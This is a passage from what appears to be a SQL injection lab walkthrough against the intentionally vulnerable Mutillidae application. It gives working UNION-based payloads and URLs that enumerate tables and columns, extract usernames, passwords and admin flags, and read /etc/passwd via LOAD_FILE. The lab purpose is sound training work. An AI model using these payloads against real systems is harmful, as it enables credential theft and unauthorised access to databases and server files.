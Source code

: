 The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/charu-dharshinii/sqlinjection/assets/130828943/9fdaadae-4afc-4777-b858-eb89ee670db6)

The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![image](https://github.com/charu-dharshinii/sqlinjection/assets/130828943/e415d259-e85c-458a-a5a8-a023b7c9890e)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

![image](https://github.com/charu-dharshinii/sqlinjection/assets/130828943/c57f602d-a737-41cf-acef-4d7d628b6325)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/charu-dharshinii/sqlinjection/assets/130828943/bc94f8d2-7cc9-4025-a66c-4ac3a596ef87)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
